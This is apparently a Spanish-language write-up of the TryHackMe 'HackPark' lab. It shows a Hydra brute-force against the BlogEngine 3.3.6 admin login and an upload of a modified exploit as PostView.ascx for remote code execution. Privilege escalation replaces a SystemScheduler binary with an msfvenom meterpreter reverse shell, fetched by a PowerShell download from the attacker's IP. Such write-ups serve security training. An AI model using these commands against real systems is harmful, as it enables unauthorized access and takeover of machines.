





TryHackMe
Medium
Windows
BlogEngine
Hydra
File Upload
SystemScheduler
HackPark
BlogEngine 3.3.6 con brute force hydra; RCE via PostView.ascx upload; escalada reemplazando Message.exe.
cat4clysm
Herramientas utilizadas
nmap
hydra
searchsploit
msfvenom
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 80,3389 -Pn -n 10.10.65.121 -oN targeted
BlogEngine 3.3.6 - Brute Force

root@kali:~$
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.65.121 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=...&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^...:Login failed'
Explotacion - BlogEngine RCE
root@kali:~$
searchsploit blogengine 3.3.6
searchsploit -m aspx/webapps/46353.csModificamos el exploit con nuestra IP/puerto y lo renombramos a PostView.ascx.
Lo subimos via File Manager en /admin/app/editor/editpost.cshtml.
Accedemos a http://10.10.10.10/?theme=../../App_Data/files con nc escuchando.


Escalada - SystemScheduler Message.exe
root@kali:~$
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o meterpreter_shell.exeEncontramos C:\Program Files(x86)\SystemScheduler\Message.exe reemplazable. Lo sustituimos con una reverse shell:
root@kali:~$
msfvenom -p windows/meterpreter/reverse_tcp ... -f exe -o Message.exepowershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/Message.exe','Message.exe')"Despues de unos segundos obtenemos sesion de Administrator.
Lecciones aprendidas
- BlogEngine 3.3.6 tiene una vulnerabilidad de file upload que permite RCE via PostView.ascx.
- Los servicios programados que ejecutan binarios reemplazables son vectores de escalada.
- Winpeas automatiza la busqueda de vectores de escalada en Windows.